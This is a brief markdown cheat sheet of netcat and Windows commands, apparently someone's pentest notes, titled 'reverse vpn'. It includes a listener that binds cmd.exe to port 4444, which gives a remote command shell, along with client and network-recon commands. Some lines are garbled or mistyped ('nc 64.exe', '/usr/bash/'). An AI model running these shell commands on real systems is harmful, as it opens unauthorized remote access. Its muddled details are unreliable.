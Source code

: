 ```yaml
---
description: Netcat - for reverse vpn
---
```


# Netcat

server: `nc 64.exe -l -p 4444 -e cmd.exe`\
\-l = listen -p = port -e = callback (/usr/bash/)

server alternative `nc -nvlp 4444`

client `nc server_ip port_ip`

`shutdown -i` showdown dialog for windows

`arp -a` check all ip

`msg * on99` send messageb

